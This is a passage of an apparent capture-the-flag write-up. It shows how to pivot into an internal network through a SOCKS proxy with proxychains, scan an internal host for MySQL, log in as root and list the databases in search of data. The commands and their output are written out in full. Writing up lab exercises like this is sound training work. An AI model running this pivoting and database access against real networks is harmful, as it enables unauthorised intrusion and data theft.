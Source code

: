 We know have all routes set up and a socks proxy is listening on our kali machine on port `1080`.
Now we make sure that our `proxychains` config is set correctly (`/etc/proxychains.conf`)
```
...
socks5 127.0.0.1 1080
```

If we now scan the internal host on our kali machine we should see that port `3306` is open.
```bash
$ proxychains nmap -Pn -sT -p3306 172.19.0.2                                  
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 12:14 CEST
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.0.2:3306  ...  OK
Nmap scan report for 172.19.0.2
Host is up (0.043s latency).

PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

> Yes it is!
{: .prompt-info }

Lets connect to the `mysql` instance
```bash
$ proxychains mysql -h 172.19.0.2 -u root -p
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Enter password: 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.0.2:3306  ...  OK
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 126
Server version: 5.7.40 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

> It worked
{: .prompt-info }

Lets look for juicy data
```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cacti              |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.069 sec)

MySQL [(none)]> use cacti;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

```